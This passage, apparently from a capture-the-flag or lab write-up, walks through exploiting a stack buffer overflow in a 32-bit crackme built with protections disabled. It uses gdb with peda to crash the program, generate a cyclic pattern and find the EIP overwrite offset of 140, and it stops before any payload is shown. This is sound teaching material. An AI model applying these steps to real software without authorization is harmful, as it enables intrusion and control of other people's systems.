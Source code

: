 Without these securities the stack is executable, we remove the canary, and the ASLR is deactivate.

# Exploitation

First we will check for the different functions on the executable and how they are mapped in memory with `objdump` or `nm`.

```sh
$ objdump -x crackme-32
ou
$ nm crackme-32
```

Now we can launch `gdb` (I use it with [peda](https://github.com/longld/peda)) to get the information we need to exploit our crackme program.

```sh
$ gdb
gdb$ file crackme-32
gdb$ run messageDeTest
Message: messageDeTest
gdb$ run $(python -c 'print "A" * 200')
```

With this argument the program seg fault. The memory buffer has been filled and exceed.
As we can see in the code above the buffer has a 128 bytes size.
Now we need to find the offset for overwriting the EIP register.

```sh
gdb$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AA.....AAxAAyA'
```

This command is a `peda` command that permits to generate a specific pattern that will help us find the offset.

So let's run the program with this pattern.

```sh
run 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AA.....AAxAAyA'
 [----------------------------------registers-----------------------------------]
EAX: 0xd2
EBX: 0xf7fb9000 --> 0x1a8da8
ECX: 0x0
EDX: 0xf7fba878 --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0x41514141 ('AAQA')
ESP: 0xffffd250 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
EIP: 0x41416d41 ('AmAA')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
```
We can see that the EIP register has been overwritten with the pattern `AmAA`, let's find the exact offset with this command.

```sh
gdb-peda$ pattern offset AmAA
AmAA found at offset: 140
```
